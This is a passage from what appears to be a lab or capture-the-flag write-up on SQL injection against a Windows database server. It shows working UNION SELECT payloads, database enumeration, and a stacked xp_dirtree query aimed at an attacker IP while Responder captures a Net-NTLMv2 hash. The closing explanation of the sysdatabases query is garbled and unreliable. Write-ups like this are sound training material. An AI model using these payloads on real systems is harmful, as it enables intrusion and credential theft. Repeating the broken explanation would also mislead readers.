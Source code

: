`abcd' union select 1,2,3,4,5,6;-- -` is used to inject a new query into a legitimate SQL query and extract data from the database. The `union` keyword is used to join the results of the original query and the injected query, and the `select` statement is used to specify the values to be returned. The `;` character is used to terminate the query, and the `--` and `-` characters are used to start and complete a comment.

***

I’ll try to get the DB version. [This cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet#database-version) shows how with different database types. It’s fair to guess that this is either MSSQL (since it’s Windows) or MySQL (very common with PHP). Both of those use `@@version`, and it works:

<figure><img src="https://0xdfimages.gitlab.io/img/image-20220912160305018.png" alt=""><figcaption></figcaption></figure>

lets try stacked queries to get a Net-NTLMv2 hash

{% embed url="https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html" %}

after setting up responder ->

```
responder -I tun0 -wrf
```

and input:

```
abcd'; use master; exec xp_dirtree '\\10.10.14.166\share';-- -
```

we get some form of response:

<figure><img src="../../.gitbook/assets/image (643).png" alt=""><figcaption></figcaption></figure>

Unfortunately hash cat won't crack because it's a machine account so unlikely to be crackable ->

```
abcd'union select 1,name,3,4,5,6 from master..sysdatabases;-- -
```

* `union select 1,name,3,4,5,6` is the second query that is being injected. The `select` keyword is used to specify the columns to be returned. In this case, selecting the values `1`, `name`, `3`, `4`, `5`, and `6`. The `name` column is being selected from the `master..sysdatabases` table.
* `from master..sysdatabases` specifies the table from which the data is being selected. The `master` database contains system information about instance, and the `ases` table contains information about all on the.
